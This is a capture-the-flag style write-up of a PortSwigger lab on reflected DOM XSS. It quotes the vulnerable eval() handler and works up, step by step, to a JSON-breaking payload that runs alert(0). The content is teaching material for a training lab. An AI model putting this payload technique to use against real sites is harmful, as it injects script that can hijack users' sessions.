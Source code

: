 ### 1️⃣ General Information

|Item|Details|
|---|---|
|**Lab Link**|[Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)|
|**Solution Date**|29 / 4 / 2025|
|**Vulnerability Type**|Reflected DOM XSS|

---
### 2️⃣ Understanding the Lab Scenario

- The site contains a **search** box.

- When you type any word and click **Search**, the **word is displayed** on the results page.

![Pasted image](../images/Pasted%20image%2020250429183843.png)

---

### 3️⃣ Source Code Analysis

- I looked at the source code and found nothing.
    
- So I opened Burp Suite and sent the request, and this is what appeared:
    

![Pasted image](../images/Pasted%20image%2020250429184917.png)

- But when I looked again, I found there was an **additional response**, and it contained this dangerous code:
    

```js
if (this.readyState == 4 && this.status == 200) {
  eval('var searchResultsObj = ' + this.responseText);
  displaySearchResults(searchResultsObj);
}
```

- The code takes the response from the server and puts it in the `eval()` function, which treats any input as JavaScript code and executes it.
    

![Pasted image](../images/Pasted%20image%2020250429185440.png)

---

### 4️⃣ Exploitation Analysis

#### ❗ The Problem:

The server response is like this:

```json
{
  "results": [],
  "searchTerm": "z3rob"
}
```

If we put code inside `searchTerm`, it will be treated as a string and not executed as JavaScript.

---

### ✅ Solution: Break the JSON Structure

#### Step 1️⃣: Try to break out of the string

We tried to put:

```
results?search=z3rob"
```

And the response was:

```json
{
  "results": [],
  "searchTerm": "z3rob\""
}
```

- The response added a `\` to prevent breaking the string.
    

##### ➤ Solution:

We add a `\` as well, so it becomes:

```
results?search=z3rob\\"
```

The server responds:

```json
{
  "results": [],
  "searchTerm": "z3rob\\\""
}
```

We succeeded in breaking the string sequence.

---

#### Step 2️⃣: Try to break out of the entire JSON and add JavaScript

We tried to put:

```
z3rob\\""}alert(0)//
```

But the code **did not work**.

---

### ❓ Question: **Why didn't the code work?**

```js
z3rob\\""}alert(0)//
```

👆 This code didn't work because we **forgot to put a semicolon `;`**.

### ✅ Explanation:

- The code inside `eval()` must be syntactically correct.
    
- Without `;`, the browser may concatenate `alert(0)` with the previous statement, causing an error.
    

---

### ✔️ Final Solution (Final Payload)

```js
z3rob\"};alert(0)//
```

✅ The `alert(0)` was executed successfully!

![Pasted image](../images/Pasted%20image%2020250429191855.png)

---

Would you like me to convert these notes to a Markdown or PDF file?
